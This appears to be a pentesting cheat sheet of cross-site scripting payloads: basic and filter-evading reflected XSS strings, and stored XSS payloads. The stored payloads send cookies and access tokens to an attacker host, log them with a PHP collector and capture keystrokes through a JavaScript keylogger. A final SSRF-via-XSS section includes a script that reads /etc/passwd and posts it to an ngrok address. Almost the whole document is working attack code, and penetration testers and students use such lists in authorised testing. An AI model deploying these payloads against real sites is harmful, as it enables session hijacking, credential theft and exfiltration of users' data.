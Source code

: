 ```yaml
---
icon: file-code
---
```

# XSS

## Reflected XSS - Basic

```bash
<script>alert(1)</script>
<svg onload=alert(1)>
<img src=x onerror=alert(1)>
<script>debugger;</script>
<svg onload=alert(1)>
<svg/onload=alert(1)><svg>
<svg	onload=alert(1)><svg>
<svg><animate onbegin=alert("XSS") attributeName=x></svg>
<svg onload=alert&lpar;1&rpar;></svg>
<script>alert(1)</script>
</script><script>alert(1)</script>
<img src=x onerror=alert(navigator.appVersion)>
<img src=x onerror=alert(document.domain)>
<img src=x onerror=alert(window.location)>
```

## Reflected XSS - Filter Evasion

```bash
# Basic
<ScRiPt>alert(1);</ScRiPt>
<ScRiPt>alert(1);
<script/random>alert(1);</script>
>alert(1);</script>
<scr<script>ipt>alert(1)</scr<script>ipt>
<<script>script>alert(1);</</script>script>
<scr\x00ipt>alert(1)</scr\x00ipt>
<script><svg/onload=alert(1)></script>

# HTML tags
<a href="javascript:alert(1)">show </a>
<form action="javascript:alert(1)"><button>send</button></form>
<object data"javascript:alert(1)">

# HTML events
<body/onload=alert(1)>
<svg/onload=alert(1)>
<svg////onload=alert(1)>
<svg id='x';onload=alert(1)>
<svg onload%09=alert(1)>
<svg %09onload=alert(1)>

# Character escaping
<script>\u0061lert(1);</script>
<script>\u0061\u006C\u0065\u0072\u0074(1);</script>
<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>
<script>eval("\u0061lert(1)")</script>

# Sanitization escape
<scr<script>ipt>alert(1)</scr<script>ipt>
<scr<script>ipt>alert(1)</script>
<scr<iframe>ipt>alert(1)</script>

# Escaping quotes '
\'alert(1);//

# URL encoding
%253cimg src=x onerror=alert(1)%253e

```

## Stored XSS

### Data grabber for XSS

Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```php
<script>document.location='http://attacker/grabber.php?c='+document.cookie</script>
<script>document.location='http://attacker/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://attacker/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://attacker/cookie.php?c="+localStorage.getItem('access_token');</script>
```

Write the collected data into a file.

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

### Javascript keylogger

Another way to collect sensitive data is to set a Javascript keylogger.

```php
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

### Password changer

Redirects the user to a password change when it visits the page.

```php
<script>fetch('/settings?new_password=pass123');</script>
```

## SSRF via XSS

### Load external scripts via JS

Send the payload:

```jsx
<script src=http://attacker.com/a.js />
```

Script hosted on attacker machine to get local files, and POST back to attacker:

```php
var req1=new XMLHttpRequest();
req1.open("GET", "file:///etc/passwd", false); 
req1.send();
var response = req1.responseText;
var req2=new XMLHttpRequest();
var params = "data=" + encodeURIComponent(response);
req2.open("POST", "http://20bf-141-168-116-205.ngrok.io/caue", true);
req2.setRequestHeader('Content-Type', 'application/x-www-urlencoded')
req2.send(params);
```

### Local files using PHP redirection

Send the payload:

```php
<iframe src="http://attacker.com/redirect.php">
```

File hosted on attacker machine - Redirect to local file:

```php
<?php
 header("Location: file:///etc/passwd");
?>
```

Many more payloads at [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
